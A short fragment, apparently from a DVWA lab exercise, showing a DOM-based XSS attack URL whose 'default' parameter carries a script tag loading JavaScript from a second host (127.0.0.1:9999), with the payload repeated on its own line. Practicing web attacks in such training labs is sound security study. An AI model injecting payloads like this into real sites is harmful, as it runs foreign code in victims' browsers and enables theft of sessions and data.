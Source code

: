 http://127.0.0.1:4280/vulnerabilities/xss_d/?default=<script src="http://127.0.0.1:9999/a.js"></script>



<script src="http://127.0.0.1:9999/a.js"></script>
